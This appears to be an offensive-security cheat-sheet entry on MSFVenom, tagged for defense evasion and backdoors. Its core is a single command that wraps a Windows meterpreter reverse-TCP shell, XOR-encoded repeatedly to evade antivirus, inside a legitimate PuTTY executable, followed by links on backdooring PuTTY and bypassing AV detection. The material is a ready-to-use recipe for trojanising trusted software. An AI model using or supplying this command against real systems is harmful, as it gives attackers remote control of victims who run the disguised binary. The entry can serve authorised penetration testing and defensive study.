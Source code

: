 # 02 - MSFVenom

Search Tag(s): #defense-evasion #backdoor #metasploit-framework

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread prependmigrate=true prependmigrateproc=<process.exe> -e x64/xor_dynamic -i 10 -k -x putty_x64.exe -o backdoored_putty_x64.exe
```

---
## References

- [Backdooring Putty](https://fluidattacks.com/blog/backdooring-putty/)

- [Patching Windows Executable with the Backdoor](https://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory)

- [RoseSecurity: Bypass AV Payload Detection](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads/blob/main/Bypass-AV-Payload-Detection.md)
